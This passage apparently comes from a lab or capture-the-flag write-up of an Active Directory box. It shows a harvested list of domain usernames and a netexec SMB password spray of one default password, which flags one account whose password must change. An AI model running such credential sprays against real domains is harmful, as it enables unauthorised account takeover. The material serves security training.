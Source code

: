 Getting rid of all the groups we get the following list. 

```console
〉cat users.txt  
administrator  
guest  
jacqueline.barnett  
ashley.webb  
hugh.george  
leonard.dyer  
ian.walker  
connor.wilkinson  
caroline.robinson  
joseph.hughes  
kerry.wilson  
teresa.bell
```

## Foothold

Now we can use `netexec` to spray the previously discovered password against the list of domain users. 

```console
〉nxc smb $ip -u users.txt -p 'BabyStart123!'  
SMB         10.10.65.95     445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BA  
BYDC) (domain:baby.vl) (signing:True) (SMBv1:False)  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\administrator:BabyStart123! STATUS_L  
OGON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\guest:BabyStart123! STATUS_LOGON_FAI  
LURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\jacqueline.barnett:BabyStart123! STA  
TUS_LOGON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\ashley.webb:BabyStart123! STATUS_LOG  
ON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\hugh.george:BabyStart123! STATUS_LOG  
ON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\leonard.dyer:BabyStart123! STATUS_LO  
GON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\ian.walker:BabyStart123! STATUS_LOGO  
N_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\connor.wilkinson:BabyStart123! STATU  
S_LOGON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\caroline.robinson:BabyStart123! STAT  
US_PASSWORD_MUST_CHANGE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\joseph.hughes:BabyStart123! STATUS_L  
OGON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\kerry.wilson:BabyStart123! STATUS_LO  
GON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\teresa.bell:BabyStart123! STATUS_LOG  
ON_FAILURE  
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\:BabyStart123! STATUS_LOGON_FAILURE
```